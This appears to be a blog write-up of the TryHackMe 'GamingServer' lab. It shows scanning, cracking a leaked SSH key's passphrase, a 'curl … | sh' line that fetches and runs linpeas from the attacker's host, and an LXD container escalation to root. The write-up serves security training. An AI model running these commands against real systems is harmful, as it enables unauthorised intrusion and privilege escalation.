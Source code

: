 ```yaml
---
title: TryHackMe - GamingServer
layout: post
categories:
- TryHackMe
tag:
- lxd,
- ssh2john,
- security
image: "/assets/img/gamingserver.jpeg"
image_alt: gamingserver
---
```


An Easy Boot2Root box for beginners. Let's start.

<br>

## 1. Gaming Server

Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.

<br>

### 1.1 What is the user flag?

Let's do a nmap scan first.

```
$ nmap -sSCV 10.10.80.114
```

![nmap](/assets/img/tryhackme/gamingserver/nmap.png)

Two ports are open. These are **`22/tcp SSH, and 80/tcp HTTP`**. 
But first, let's check the website running on port 80. 
Here is a page like this.

![home](/assets/img/tryhackme/gamingserver/home.png)

I've been browsing through other links on the site but haven't found anything remarkable. Let's take a look at the source of the page.

![source](/assets/img/tryhackme/gamingserver/source.png)

We found a name here, maybe we can use it for ssh.

We don't have anything else. Let's run a gobuster scan and see what we can find.

```
$ gobuster dir -u http://10.10.225.113  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/gamingserver/gobuster.png)

We discovered two directories. Let's see what we can find in these directories.

First I go to the /uploads/ directory.

![uploads](/assets/img/tryhackme/gamingserver/uploads.png)

As you can see, there are 3 files.

dict.lst : It looks like a password list. We can try ssh brute force for John.
  
  - ![dict](/assets/img/tryhackme/gamingserver/dict.png)

Manifesto.txt : Something like a poem or song. Nothing noteworthy.

  - ![manifesto](/assets/img/tryhackme/gamingserver/manifesto.png)

meme.jpg :  :D

  - ![meme](/assets/img/tryhackme/gamingserver/meme.png)

Now let's go to the /secret/ directory and check it out.

![secret](/assets/img/tryhackme/gamingserver/secret.png)

We found a secretKey file, let's see what it says.

![rsa](/assets/img/tryhackme/gamingserver/rsa.png)

Hah, we probably found the RSA key file for john 
We can crack this RSA key and enter ssh with the password we reach.

First, let's copy the secretKey and create the id_rsa file.

![pass](/assets/img/tryhackme/gamingserver/pass.png)

```
$ nano id_rsa
$ ssh2john id_rsa > id_rsa.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

**`Password: letmein`**

Now we can log in to ssh.

```
$ chmod 600 id_rsa
$ ssh -i id_rsa john@10.10.225.113
```

![in](/assets/img/tryhackme/gamingserver/in.png)

Now we can get to the user flag.

![user-flag](/assets/img/tryhackme/gamingserver/user-flag.png)

<br>

### 1.2 Root.txt

I'm scanning the system with [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230319) to upgrade privileges. 

First, I run the following code in the directory where linpeas.sh is located on my own machine.

```
$ sudo python -m http.server 80
```

Then I run the following code on the target machine.

```
$ curl 10.8.86.168/linpeas.sh | sh
```

![run](/assets/img/tryhackme/gamingserver/run.png)

And it worked. Now we're waiting to see if we can find anything useful.

![linpeas](/assets/img/tryhackme/gamingserver/linpeas.png)

I think we found something about lxd. I don't know if I can upgrade authorization using this. So I started researching.  

Yes, I found a way to escalate, let's do it.

```
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ ./build-alpine 
```

![alpine](/assets/img/tryhackme/gamingserver/alpine.png)

After building, we need to send one of the `*.tar.gz` files created on our machine to the target machine.

![tar](/assets/img/tryhackme/gamingserver/tar.png)

For this, I run the following code on my own machine.

```
$ python -m http.server 80
```

This code on the target machine:

```
$ wget http://10.8.86.168/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Then we continue on the target machine.

```
$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
$ lxd init # hepsine enter tıklayıp geç.
$ lxc init myimage mycontainer -c security.privileged=true
$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true 
$ lxc start mycontainer
$ lxc exec mycontainer /bin/sh
```

![privesc](/assets/img/tryhackme/gamingserver/privesc.png)

We can get to the root flag.

```
$ find / -type f -name root.txt 2>/dev/null
$ cat /mnt/root/rot/root.txt
```

![root-flag](/assets/img/tryhackme/gamingserver/root-flag.png)


<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
